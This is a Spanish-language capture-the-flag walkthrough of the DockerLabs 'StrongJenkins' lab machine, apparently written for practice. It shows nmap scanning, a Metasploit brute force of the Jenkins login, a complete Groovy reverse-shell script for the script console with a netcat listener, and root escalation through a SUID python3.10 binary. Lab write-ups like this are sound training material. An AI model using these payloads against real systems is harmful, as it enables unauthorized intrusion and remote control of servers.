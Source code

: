 ```yaml
---
icon: flag
---
```


# StrongJenkins DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip strongjenkins.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh strongjenkins.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 09:41 EST
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds
```

Si entramos en la pagina web por el puerto `8080` veremos un `Jenkins`, vamos a probar las credenciales por defecto pero no tendremos suerte, por lo que vamos a realizar fuerza bruta contra el login con `metasploit` de la siguiente forma:

## jenkins\_login Exploit

```shell
msfconsole -q
```

Ahora accederemos al modulo de la siguiente forma:

```shell
use scanner/http/jenkins_login
```

Ahora tendremos que configurarlo:

```shell
set RHOSTS <IP>
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit
```

Info:

```
[!] No active DB -- Credential data will not be saved!
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:12345 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:password (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:iloveyou (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:princess (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:1234567 (Incorrect)
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
```

Veremos que hemos encontrado las credenciales, por lo que nos loguearemos con dichas credenciales.

## Escalate user jenkins

```
User: admin
Pass: rockyou
```

Dentro del `jenkins` nos iremos a la pestaña de `Manage Jenkins` y veremos abajo del todo este apartado:

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

Entraremos dentro de el y veremos como un recuadro donde meter un script para ejecutar:

```bash
String host="<IP>";
int port=<PORT>;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pero antes de ejecutar nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si lo ejecutaremos, por lo que pulsaremos a `run` y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 49766
whoami
jenkins
```

Veremos que somos el usuario `jenkins` por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2405051     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  2275789     36 -rwsr-xr-x   1 root     root        35200 Apr  9  2024 /usr/bin/umount
  2275773     56 -rwsr-xr-x   1 root     root        55680 Apr  9  2024 /usr/bin/su
  2275722     48 -rwsr-xr-x   1 root     root        47488 Apr  9  2024 /usr/bin/mount
  2404926     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  2404920     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  2405062     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  2404988     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  2528496   5768 -rwsr-xr-x   1 root     root      5904904 Nov 20  2023 /usr/bin/python3.10
  2519472     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Si vemos la siguiente linea:

```
2528496   5768 -rwsr-xr-x  1 root  root  5904904 Nov 20  2023 /usr/bin/python3.10
```

Vemos que podemos ejecutar `python3.10` bajo los privilegios de `root`, por lo que haremos lo siguiente:

```shell
python3.10 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.1# whoami
root
```

Si ejecutamos esto veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.
